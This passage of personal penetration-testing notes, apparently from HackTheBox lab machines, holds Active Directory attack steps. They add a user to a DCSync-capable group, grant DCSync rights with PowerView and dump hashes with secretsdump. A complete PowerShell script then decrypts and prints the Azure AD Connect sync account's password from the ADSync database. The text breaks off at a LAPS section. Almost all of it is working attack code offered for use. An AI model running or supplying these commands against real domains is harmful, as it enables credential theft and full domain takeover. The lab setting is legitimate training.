 ```
	- make sure zeus is listed
- `net group "Exchange Windows Permissions" /add zeus`
	- adding zeus to group with DCSync privileges
- `net user zeus`
	- make sure group is listed
- `$pass = convertto-securestring 'password' -AsPlainText -Force`
- `New-Object System.Management.Automation.PSCredential('htb\zeus', $pass)`
- `Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity zeus -Rights DCSync`
	- if fails, re-import PowerView.ps1
- run `secretsdump.py` command above from kali


Azure Connect abuse ^b9f60c
- requires creds to a user with Azure Admins group membership
```
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}}
Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```
- save as .ps1 (currently saved in ~/HTB/monteverde/poc.ps1) and upload to shell and run `.\poc.ps1` to get administrator password


LAPS
see *ReadLAPSPassword* in bloodhound but no foothold/shell, use nxc:
```